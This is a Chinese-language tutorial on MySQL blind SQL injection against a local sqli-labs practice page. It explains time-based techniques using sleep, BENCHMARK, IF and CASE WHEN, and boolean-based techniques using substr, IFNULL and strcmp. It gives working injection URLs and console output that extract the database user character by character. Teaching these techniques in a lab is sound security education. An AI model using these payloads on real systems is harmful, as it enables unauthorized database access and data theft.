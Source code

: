 # 0x00 盲注

盲注我这里只归纳为 

1. 时间盲注

2. 布尔盲注

其实在如今的实际环境中一般盲注的情况毕竟多,时间盲注太费时间 同时对网络要求比较高，二分，dnslog,等等可以加快注入的进程。




# 0x01 盲注中值得注意的问题


1. 盲注中使用 and 你得确定你查询的值得存在 。

2. 在返回多组数据的情况下，你的延时不再是 单纯的 `sleep(5)` 他将根据你返回的数据条数来反复执行

3. 在如同搜索型时尽量搜索存在且数目较少的关键词

4. 尽量不要使用 or 


至于以上为什么会出现这种原因 推荐大家看看 这篇文章讲的很清楚https://www.t00ls.net/thread-45590-1-10.html


# 0x02 简单时间盲注


时间盲注也叫延时注入 一般用到函数 `sleep()` `BENCHMARK()` 还可以使用笛卡尔积(尽量不要使用,内容太多会很慢很慢),查阅mysql手册会发现很多东西

一般时间盲注我们还需要使用条件判断函数

### if()

`if（expre1，expre2，expre3）` 当expre1为true时，返回expre2，false时，返回expre3
盲注的同时也配合着mysql提供的分割函，与正则函数 like函数，比较函数等等，还是那句话多看手册。

```
substr
substring
left
......

```

我们一般喜欢把分割的函数编码一下，当然不编码也行，编码的好处就是可以不用引号 常用到的就有 `ascii()`  `hex()` 等等
`benchmark()`其作用是来测试一些函数的执行速度。benchmark()中带有两个参数，第一个是执行的次数，第二个是要执行的函数或者是表达式。

```
mysql> select * from users where id =1 and if((substr((select user()),1,1)='r'),sleep(5),1);
Empty set (5.01 sec)

mysql> select * from users where id =1 and if((substr((select user()),1,1)='r1'),sleep(5),1);
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)

mysql> select * from users where id =1 and if((substr((select user()),1,1)='r'),BENCHMARK(20000000,md5('a')),1);
Empty set (5.15 sec)

```



### case when then else end



```
mysql> select * from users where id =1 and case when (substr((select user()),1,1)="rr") then sleep(3) else 1 end;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)

mysql> select * from users where id =1 and case when (substr((select user()),1,1)="r") then sleep(3) else 1 end;
Empty set (3.00 sec)

```

不推荐使用笛卡尔积当数据过多时会造成DOS。


# 0x03 布尔盲注

盲注思路的思路很多 比如正则匹配,比较函数,运算符，推荐大家可以看看
https://www.anquanke.com/post/id/170626

1. 直接通过字符串截取对比，类似函数很多后面做个总结吧

```
http://127.0.0.1/sqli/Less-1/?id=1' and substr((select user()),1,1)='r' -- +
```


2. 用 `IFNULL()` 函数

```
http://127.0.0.1/sqli/Less-1/?id=1' and IFNULL((substr((select user()),1,1)='r'),0) -- +

```


3. 使用 比较函数`strcmp()` 

```
1.

http://127.0.0.1/sqli/Less-1/?id=1' and strcmp((substr((select user()),1,1)='r'),1) -- +
http://127.0.0.1/sqli/Less-1/?id=1' and strcmp((substr((select user()),1,1)='r'),0) -- +


2.

mysql> select * from users where id =1 and 0=strcmp((substr((select user()),1,1)),'o');
Empty set (0.00 sec)

mysql> select * from users where id =1 and 0=strcmp((substr((select user()),2,1)),'o');
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)


```

# 0x04 小技巧

在没有办法的情况下必须使用到or 的延时注入不如试试子查询,他也只将延时5s

```
http://192.168.130.135/Less-1/?id=1'  or if((substr((select user()),1,1)='r'),((select sleep(5) from information_schema.schemata as b)),1);-- +

```

# 0x05 文末


#### 本文如有错误，请及时提醒，避免误导他人

* author：404